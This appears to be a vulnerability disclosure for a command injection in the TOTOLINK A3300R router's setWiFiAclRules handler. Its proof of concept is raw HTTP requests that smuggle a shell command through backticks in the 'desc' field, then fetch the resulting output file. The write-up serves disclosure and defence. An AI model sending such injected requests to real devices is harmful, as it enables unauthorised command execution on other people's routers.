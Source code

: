 #  A3300R setWiFiAclRules Command Injection

verdor name: TOTOLINK

model: A3300R AC1200

version: V17.0.0cu.592_B20231030

firmware: https://www.totolink.tw/support_view/A3300R

![image-20241210182241481](1.assets/image-20241210182241481.png)

**Description**

The `desc` parameter is vulnerable to command injection when processing the `setWiFiAclRules` request.

**poc**

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.100.2
Content-Length: 125
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Accept-Language: zh-CN
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.100.2
Referer: http://192.168.100.2/login.html
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

{"mac":"14:16:9E:CC:BB:3F","desc":"xxx.com`ls>/web/20.txt`","addEffect":"1","wifiIdx":"0","topicurl":"setWiFiAclRules"}
```

![image-20241211132952925](20.assets/image-20241211132952925.png)

```
GET /20.txt HTTP/1.1
Host: 192.168.100.2
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

![image-20241211133014449](20.assets/image-20241211133014449.png)
